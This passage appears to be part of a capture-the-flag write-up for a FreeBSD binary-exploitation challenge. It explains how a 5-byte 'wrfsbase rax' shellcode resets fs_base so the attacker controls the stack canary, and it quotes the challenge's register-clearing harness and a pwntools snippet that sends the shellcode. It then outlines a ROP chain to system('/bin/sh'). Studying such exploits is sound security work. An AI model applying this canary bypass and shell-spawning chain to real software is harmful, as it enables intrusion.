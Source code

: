 Enter `wrfsbase` and `wrgsbase`. 
According to [this gist](https://gist.github.com/MerryMage/f22e75d5128c07d77630ca01c4272937) FreeBSD just doesn't care if the segment registers are changed.

Okay but how does this help?
Well remember the 5 byte of shellcode we could write? 
As it turns out the 64 bit versions of the `wr(f|g)sbase` instructions are exactly 5 byte long. 
Coincidence? 
I think not!

`wrfsbase` takes a register as it's only argument and write it's content into the `fs_base` register.
Thus whatever the register pointed to will become the new stack canary.

```c

#define CLEAR(reg) "xor %" #reg ", %" # reg "\n"

// ...

asm volatile(
    CLEAR(rsi) CLEAR(rdi)
    CLEAR(r8) CLEAR(r9) CLEAR(r10) CLEAR(r11)
    CLEAR(r12) CLEAR(r13) CLEAR(r14) CLEAR(r15)
    CLEAR(rbx) CLEAR(rcx) CLEAR(rdx)
);

asm volatile(
    "movabs $1f, %%rdx\n"
    "mov %%rdx, 0x7(%%rax)\n"
    "mov %%rsp, 0x11(%%rax)\n"
    "xor %%rdx, %%rdx\n"
    "xor %%rbp, %%rbp\n"
    "xor %%rsp, %%rsp\n"
    "jmp *%0\n"
    :: "a"(playground) :
);
```

Just before we are about to execute the shellcode however every register is cleared, apart from `rax` which contains the pointer to our `playground` and `rip` for obvious reasons.
This leaves us with the `rax` and `rip` register as candidates for our new `fs_base` pointer.
Since we control what `rax` is pointing to we chose `rax` as our lucky register.
And because the canary ~~doesn't~~ shouldn't change over the course of an execution we do know what the canary will be by the time we are writing our rop chain.

```python
io.recvuntil("All your shellcode are belong to us!\n")
shellcode = "\xf3\x48\x0f\xae\xd0" # wrfsbase rax
io.send(shellcode)
```

The rest is shockingly straight forward. 
We get a pointer to system and a pointer to the top of our buffer we are going to fill, we can fabricate a `/bin/sh` pointer by just putting it at the start of the buffer and then build a simple rop chain. 
